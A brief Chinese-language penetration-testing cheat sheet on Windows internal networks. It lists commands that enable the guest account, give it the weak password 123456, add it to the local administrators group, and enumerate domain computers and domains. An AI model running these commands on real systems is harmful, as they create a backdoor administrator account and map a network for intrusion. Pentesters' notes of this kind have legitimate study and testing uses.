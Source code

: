 ## windows内网渗透

### 常用命令
- net user guest /active:yes 激活guest用户
- net user guest 123456
- net localgroup administrators guest /add
- net group "domain computers" /domain
- net view /domain
